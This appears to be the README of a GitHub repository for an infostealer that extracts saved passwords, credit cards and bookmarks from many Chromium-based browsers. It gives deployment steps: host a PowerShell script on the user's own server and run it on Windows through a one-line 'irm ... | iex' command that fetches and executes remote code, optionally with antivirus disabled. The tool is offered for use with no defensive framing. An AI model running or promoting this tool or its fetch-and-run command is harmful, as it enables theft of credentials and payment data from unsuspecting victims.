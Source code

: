 # Browser-password-stealer
This python program gets all the saved passwords, credit cards and bookmarks from chromium based browsers supports chromium 80 and above!

### Browser-Password-Stealer-Powershell-Automation
Added Powershell script to automate python download, setup, and run of this repository. Options: host the file to be executed or run locally with AV turned off. The file that was incorporated to this forked repo is Browser-Password-Stealer-PowershellAuto.ps1.

# 📎Modules Required
To install all the required modules use the following code:
<br/>
<b>pip install -r requirements.txt</b>

# Supported browsers
## Chromium Based Browsers
    ✔ AVAST Browser
    ✔ Amigo
    ✔ Torch
    ✔ Kometa
    ✔ Orbitum
    ✔ Cent-browser
    ✔ 7star
    ✔ Sputnik
    ✔ Vivaldi
    ✔ Google-chrome-sxs
    ✔ Google-chrome
    ✔ Epic-privacy-browser
    ✔ Microsoft-edge
    ✔ Uran
    ✔ Yandex
    ✔ Brave
    ✔ Iridium

# Install Required Python Packages
pip install -r requirements.txt

# How to Use

### Hosted on webserver from the directory the .ps1 is located
```
python3 -m http:server 80
```
### From Windows
```
irm http://#Your_IP/Browser-Password-Stealer-PowershellAuto.ps1 | iex
```

### Executed locally
Just run this **chromium_based_browsers.py** the code will create a folder based on the browser name and stores the saved passwords, credit cards and bookmarks in that folder.

#### Star the Repo in case you liked it :)
